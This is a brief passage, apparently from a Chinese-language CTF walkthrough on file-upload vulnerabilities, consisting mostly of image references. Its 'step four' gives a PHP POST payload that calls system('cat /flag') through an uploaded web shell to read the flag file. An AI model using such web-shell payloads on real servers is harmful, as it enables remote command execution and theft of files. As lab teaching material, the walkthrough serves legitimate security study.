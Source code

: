 ![img](文件上传.assets/1681146122637-802d9b03-74bf-4d65-ad91-53956c7511e5.png)

- **第四步：构造如下读取flag**

```php
POST: whoami=system('cat /flag');
```

![img](文件上传.assets/1681146123212-d8f6f2fe-d631-452d-8972-0efa736025cf.png)
